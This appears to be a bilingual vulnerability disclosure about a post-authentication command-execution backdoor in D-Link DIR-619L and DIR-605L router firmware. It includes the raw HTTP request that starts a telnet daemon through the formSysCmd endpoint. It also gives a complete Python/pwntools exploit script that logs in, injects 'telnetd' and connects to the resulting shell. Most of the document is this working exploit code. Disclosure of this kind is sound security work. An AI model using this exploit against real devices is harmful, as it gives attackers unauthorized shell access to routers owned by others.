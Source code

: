 Dlink model DIR-619L, the latest firmware 2.06B1, there is a backdoor function that can cause any system command to be executed after user authentication
download link: ftp://ftp2.dlink.com/PRODUCTS/DIR-619L/REVB/
Vulnerability location: file:  /bin/boa  function:formSysCmd
The attacker calls this function by sending a post packet to the http://ip/goform/formSysCmd page.
The program will call the system function with the value of syscmd in the post package.
Post package structure
``` python
postData = {
	'sysCmd':cmd,
	'submit-url':'1234',
	}
response = requests.post('http://192.168.0.1/goform/formSysCmd',data=postData)
``` 
Http message:
``` 
POST /goform/formSysCmd HTTP/1.1
Host: 192.168.0.1
Connection: keep-alive
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: python-requests/2.20.1
Content-Length: 36
Content-Type: application/x-www-form-urlencoded
submit-url=1234&sysCmd=telnetd+-p+90
``` 
The same problem exists with the latest firmware 2.12B1 on the DIR-605L.
download link:ftp://ftp2.dlink.com/SECURITY_ADVISEMENTS/DIR-605L/REVB/

![image](https://github.com/WhooAmii/whooamii.github.io/blob/master/2018/8.png)

![image](https://github.com/WhooAmii/whooamii.github.io/blob/master/2018/7.png)





Dlink型号DIR-619L最新固件2.06B1上存在验证身份后命令执行后门。
下载地址：ftp://ftp2.dlink.com/PRODUCTS/DIR-619L/REVB/
攻击者可在验证身份后执行任意的系统命令。
漏洞位置 /bin/boa上的formSysCmd函数。
攻击者通过向http://ip/goform/formSysCmd页面发送post包调用此函数。
程序会将post包中syscmd的值通过sprintf后调用system函数。
Post结构
postData = {
	'sysCmd':cmd,
	'submit-url':'1234',
	}
	response = requests.post('http://192.168.0.1/goform/formSysCmd',data=postData)
http报文:
POST /goform/formSysCmd HTTP/1.1
Host: 192.168.0.1
Connection: keep-alive
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: python-requests/2.20.1
Content-Length: 36
Content-Type: application/x-www-form-urlencoded
submit-url=1234&sysCmd=telnetd+-p+90

型号DIR-605L最新固件2.12B1上同样存在该问题。
下载地址ftp://ftp2.dlink.com/SECURITY_ADVISEMENTS/DIR-605L/REVB/


 
Script:
``` python
import requests
import sys
import struct
import base64
from pwn import *
ip='192.168.0.1'
port=101
def login(user,password):
	postData = {
	'login_name':'',
	'curTime':'12345',
	'FILECODE':'',
	'VER_CODE':'',
	'VERIFICATION_CODE':'',
	'login_n':user,
	'login_pass':base64.b64encode(password),
	}
	response = requests.post('http://192.168.0.1/goform/formLogin',data=postData)
def syscmd(cmd):
	postData = {
	'sysCmd':cmd,
	'submit-url':'1234',
	}
	response = requests.post('http://192.168.0.1/goform/formSysCmd',data=postData)
def inter():
	p=remote(ip,port)
	p.interactive()
if __name__ == "__main__":
	login('admin','123456')
	syscmd('telnetd -p '+str(port))
	inter()
	
``` 

